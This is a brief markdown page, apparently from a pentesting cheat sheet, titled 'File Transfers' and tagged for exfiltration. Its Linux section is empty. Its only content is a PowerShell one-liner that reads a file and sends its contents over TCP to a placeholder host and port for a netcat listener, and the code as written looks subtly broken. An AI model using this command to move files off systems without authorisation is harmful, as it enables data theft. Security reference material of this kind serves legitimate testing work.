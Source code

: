```yaml
---
layout: default
title: File Transfers
tags:
    - download
    - exfiltration
    - scp
    - smb
    - tftp
    - upload
---
```

# File Transfers
## Linux

## Windows
Powershell Send File to Netcat
```shell
$h="<host>";$p="<port>";$data=Get-Content -Path "<file>";$tcp=New-Object System.Net.Sockets.TcpClient($h,$p);$w=New-Object System.IO.StreamWriter($tcp).GetStream();foreach($l in $data){$w.WriteLine($l)};$w.Flush();$w.Close();$tcp.Close();
```